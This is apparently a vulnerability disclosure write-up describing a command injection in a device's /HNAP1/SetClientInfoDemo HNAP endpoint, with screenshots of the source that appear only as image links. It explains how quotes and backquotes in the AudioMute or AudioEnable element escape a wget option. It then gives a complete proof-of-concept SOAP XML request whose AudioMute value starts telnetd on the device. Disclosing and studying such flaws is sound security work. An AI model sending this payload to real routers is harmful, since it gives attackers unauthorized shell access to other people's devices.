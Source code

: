 ![](SetClientInfoDemo.php1.png)

...

![](SetClientInfoDemo.php2.png)

After the script file is executed, the command injection occurs. It needs to bypass the wget command option with a single quote.

A vulnerable `/HNAP1/SetClientInfoDemo` XML message could have single quotes and backquotes in the `AudioMute` or `AudioEnable` element, such as the ``` '`telnetd`' ``` string.

### PoC xml

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetClientInfoDemo> <ClientInfoLists> <ClientInfo>
<MacAddress>11:22:33:44:55:66</MacAddress>
<NickName>default</NickName>
<ReserveIP>192.168.0.1</ReserveIP> <SupportedAction>
<AudioMute>'`telnetd`'</AudioMute>
<AudioEnable>default</AudioEnable>
<SmartPlugEnable>default</SmartPlugEnable>
<ZWaveSmartPlug>default</ZWaveSmartPlug> </SupportedAction>
</ClientInfo> </ClientInfoLists>
</SetClientInfoDemo>
</soap:Body> </soap:Envelope>
```
